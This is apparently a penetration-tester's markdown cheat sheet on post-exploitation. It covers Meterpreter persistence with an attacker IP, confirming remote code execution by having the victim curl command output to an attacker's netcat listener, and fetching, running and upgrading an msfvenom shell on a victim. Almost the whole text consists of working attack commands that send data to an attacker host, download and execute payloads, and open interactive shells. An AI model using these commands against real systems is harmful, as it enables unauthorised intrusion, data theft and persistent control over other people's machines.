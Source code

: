 If a system can be fully compromise, we would want to establish persistence so that we regain a session after the workstation reboots and at user login. This can be done with the following command:  
`run persistence -U -i {interval} -p {port} -r {attacker ip}`

This command built into meterpreter will: 
- build persistent script agent
- move agent into a WINDOWS directory
- execute the agent
- install autorun into registry

---
---

## Validate RCE
Easy way of validating RCE from a cmd shell upload for example can be done with `nc`  

On attacker machine start a nc listener on any port (53 to not be blocked by WAFs is best)  
`nc -lvnp 53`  

Then on the potentially compromised machine just execute a curl command back to you with a system command as shown below:  
`curl {ip}:53/'whoami'`

- If RCE is valid, the `nc` listener will show `GET /www-data` among the header information

- If command includes spaces in the output -e.g. id, base64 encode the cmd:  
`curl {ip}:53/'id' | base64`
    - This will show `GET /{base64 string}` in the `nc` listener, which you can then run against `base64 -d` to get the original output

### Download file on victim
Also pay want to get a file onto the victim, which can be done through python's `http.server` module. 

1. Start python server on your machine:  
`python3 -m http.server {port}`
2. Use [msfvenom](https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/) to create a shell if you don't already have one suitable for your target
3. Curl shell onto victim:
`curl {ip}:53/{file} -o {dir/file}`  
4. Set the file to be executable  
`chmod +x file`  
5. Run the file  
`./file` 
6. Establish full interactive shell  
`python -c 'import pty;pty.spawn("/bin/bash");'`  
`ctrl+z`  
`stty raw -echo`  
`fg`  
`export TERM=xterm`
7. Profit
